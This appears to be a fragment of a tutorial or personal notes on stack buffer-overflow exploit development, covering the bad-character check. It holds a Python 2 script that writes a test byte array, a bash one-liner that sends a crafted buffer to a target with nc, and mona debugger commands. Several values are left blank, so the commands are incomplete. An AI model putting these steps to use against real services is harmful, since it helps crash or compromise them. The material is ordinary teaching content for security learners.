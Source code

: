 ```bash
msf-nasm_shell
jmp 
```


*Checking for Bad Chars*

> Restart and run the application.

```python
#!/usr/bin/python2

shellcode = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
shellcode += "C" * 2000

with open('payload','a') as f:
  f.write(shellcode)
  f.close()
```

```bash
printf -- 'A%.0s' {1..} > payload ; printf -- 'B%.0s' {1..4} >> payload ; printf -- "\x90%.0s" {1..16} >> payload ; python2 bad-chars.py ; nc -nvC  < payload
```


Modify the `bad-chars.py` file and remove the bad char `` and iterate till all the bad-chars are removed.

Confirm the removal of `bad characters` using `mona`.

```text
!mona config -set workingfolder C:\mona\%p
!mona bytearray -cpb "\x00"
!mona compare -f C:\mona\\bytearray.bin -a <ESP>
```

```text

```
